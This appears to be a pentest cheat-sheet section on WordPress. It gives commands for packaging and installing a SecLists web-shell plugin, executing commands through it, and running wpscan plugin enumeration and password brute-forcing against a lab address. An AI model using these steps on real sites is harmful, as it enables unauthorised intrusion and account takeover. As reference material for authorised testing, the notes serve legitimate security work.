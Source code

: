 # WordPress

Reverse-shell with a malicious plugin:

```
$ cp /usr/share/seclists/Web-Shells/WordPress/plugin-shell.php .
$ zip plugin-shell.zip plugin-shell.php
...Upload plugin-shell.zip and install it (but do not activate)...
$ curl 'http://10.10.13.37/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami'
```




## wpscan

* [https://github.com/wpscanteam/wpscan](https://github.com/wpscanteam/wpscan)
* [https://wpscan.com/profile](https://wpscan.com/profile)

```
$ wpscan --url http://10.10.13.37/wp/ --api-token <API_TOKEN> --force -e ap
$ wpscan --url http://10.10.13.37/wp/ --api-token <API_TOKEN> --force --passwords /usr/share/seclists/Passwords/darkweb2017-top1000.txt
```
